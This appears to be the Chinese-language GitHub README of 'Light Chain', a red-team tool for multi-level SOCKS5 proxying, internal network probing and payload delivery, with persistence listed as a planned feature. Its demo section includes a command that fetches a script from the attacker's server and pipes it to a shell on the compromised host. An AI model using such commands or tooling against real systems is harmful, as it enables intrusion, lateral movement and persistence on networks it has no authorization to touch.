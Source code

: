 # Light Chain

![version](https://img.shields.io/github/v/release/MayMistery/LightChain?include_prereleases&label=version)
![license](https://img.shields.io/github/license/MayMistery/LightChain?color=FF5531)

红队工具，内网前哨站。轻量化，支持多级正、反向代理；载荷投递、落地；可以进行主、被动内网探测。

## Features

- socks5多级代理
- 长链路载荷投递一键落地
 

## Todo
- [ ] 增加端口转发
- [ ] 优化tcp载荷投递
- [ ] 增加一键部署脚本
- [ ] 考虑增加udp载荷投递
- [ ] 优化多级代理时的载荷投递时的参数配置
- [ ] 增加socks5代理
- [ ] 增加-d后台运行
- [ ] 增加日志输出（可配置
- [ ] 增加权限维持手段

# Demo(预期)

- 攻击机（公网）`lChain -srv eth0 8888`
- 攻击机（无公网ip）`lChain -srv eth0 -local 8888`
读取配置文件cfg.ini中的公网机ssh配置，利用ssh进行远端端口转发搭建公网服务
- 宿主端一键落地 `curl http://host:post/dep.sh | sh`（服务端运行时生成dep.sh）
- 宿主端 `lChain -slv eth0 -C '121.*.*.1:8888,121.*.*.2:8888' 8888`(部署在eth0网卡上，-C从宿主机到攻击机路径)


## Contributor

<a href="https://github.com/MayMistery/LightChain/graphs/contributors">
  <img src="https://contrib.rocks/image?repo=MayMistery/LightChain" />
</a>
